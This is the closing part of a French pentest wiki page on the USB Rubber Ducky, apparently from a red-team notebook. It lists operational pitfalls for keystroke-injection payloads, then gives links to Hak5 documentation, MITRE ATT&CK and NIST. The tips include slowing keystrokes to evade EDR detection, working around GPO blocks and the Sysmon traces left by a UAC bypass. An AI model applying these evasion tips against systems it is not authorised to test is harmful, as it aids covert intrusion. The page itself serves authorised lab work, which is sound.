> - **AZERTY vs QWERTY** : le Ducky énumère un clavier **US** ; sur une cible FR, `STRING` tape des caractères différents. Forcer la disposition dans le payload ou tester avec la disposition cible.
> - `GUI r` peut être bloqué par certaines GPO ; prévoir un fallback (`CTRL SHIFT ESC`, `CTRL ALT DELETE`).
> - Un EDR moderne détecte la frappe à 1000 mpm : insérer des `DELAY` réalistes ou un payload « humain » plus lent.
> - Un UAC bypass modifie le registre de l'utilisateur : trace détectable par Sysmon — à utiliser uniquement en lab autorisé.
> - Un `ATTACKMODE` changé en plein payload re-enumere le device et peut casser le shell.

---

## 📚 References

### Official

- Documentation officielle USB Rubber Ducky : https://docs.hak5.org/usb-rubber-ducky/
- DuckyScript Quick Reference : https://docs.hak5.org/hak5-usb-rubber-ducky/duckyscript-tm-quick-reference
- GitHub officiel (encoder + payloads) : https://github.com/hak5/usb-rubber-ducky
- Repository officiel des payloads : https://github.com/hak5/usbrubberducky-payloads
- Hak5 Payload Studio : https://payloadstudio.hak5.org/
- Fiche produit Hak5 : https://shop.hak5.org/products/usb-rubber-ducky

### Security references

- MITRE ATT&CK T1200 — Hardware Additions : https://attack.mitre.org/techniques/T1200/
- MITRE ATT&CK T1059.003 — Windows Command Shell : https://attack.mitre.org/techniques/T1059/003/
- MITRE ATT&CK T1059.001 — PowerShell : https://attack.mitre.org/techniques/T1059/001/
- MITRE ATT&CK T1091 — Replication Through Removable Media : https://attack.mitre.org/techniques/T1091/
- MITRE ATT&CK T1204 — User Execution : https://attack.mitre.org/techniques/T1204/
- NIST SP 800-53 (contrôles des médias amovibles, MP-7) : https://csrc.nist.gov/pubs/sp/800/53/r5/upd1/final

### Community

- HackTricks — Keystroke injection / BadUSB : https://book.hacktricks.xyz/
- Write-up keystroke injection et défense (docs EDR) : https://docs.hak5.org/hak5-usb-rubber-ducky/advanced-features/jitter
- Blog de la détection d'injection HID (les signaux type) : https://www.blackhathq.com/post/duckyscript-scripting-keystroke-injection-attacks

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Protocole USB|🔌 Protocole USB]] · [[Techniques/Hardware - Arduino|🎛️ Hardware Arduino]] · [[Techniques/Reverse Shells|🖥️ Reverse Shells]] · [[Outil - Hak5 Payload Studio|💻 Payload Studio]] · [[Outil - Bash Bunny|🐰 Bash Bunny]]
